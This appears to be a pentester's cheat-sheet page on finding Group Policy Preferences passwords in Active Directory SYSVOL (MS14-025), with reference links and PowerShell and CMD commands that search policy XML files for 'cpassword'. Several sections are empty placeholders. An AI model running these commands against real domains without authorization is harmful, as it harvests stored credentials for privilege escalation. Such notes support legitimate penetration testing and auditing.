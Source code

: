 ## [Finding Passwords in SYSVOL & Exploiting Group Policy Preferences](https://adsecurity.org/?p=2288)

## [AD Hunting Passwords In SYSVOL](https://github.com/ahmetgurel/Pentest-Hints/blob/master/AD%20Hunting%20Passwords%20In%20SYSVOL.md)

## [Exploiting GPP SYSVOL (Groups.xml)](https://vk9-sec.com/exploiting-gpp-sysvol-groups-xml/)

## [Microsoft Security Bulletin MS14-025 - Important](https://learn.microsoft.com/en-us/security-updates/securitybulletins/2014/ms14-025)

> The vulnerability could allow elevation of privilege if Active Directory Group Policy preferences are used to distribute passwords across the domain - a practice that could allow an attacker to retrieve and decrypt the password stored with Group Policy preferences.

### Extensions
```
*.xml , *.vbs , *.bat etc.
```

### TL;DR
```

```

### PowerShell
```PowerShell
dir $env:logonserver\sysvol

dir \\$env:USERDNSDOMAIN\sysvol
dir \\$env:USERDNSDOMAIN\sysvol\$env:USERDNSDOMAIN\policies\*.xml
findstr /S /I cpassword \\$env:USERDNSDOMAIN\sysvol\$env:USERDNSDOMAIN\policies\*.xml
```

### CMD
```
dir %logonserver%\sysvol

dir \\%USERDNSDOMAIN%\sysvol
findstr /S /I cpassword \\%USERDNSDOMAIN%\sysvol\%USERDNSDOMAIN%\policies\*.xml
```

### 
```

```

### Examples
```

```


### [%userdnsdomain% vs %logonserver%](https://www.reddit.com/r/sysadmin/comments/e01wot/userdnsdomain_and_logonserver_environment/?rdt=46812)
```
\\%logonserver%\sysvol\%userdnsdomain%
```

### 
```

```

### 
```

```

### 
```

```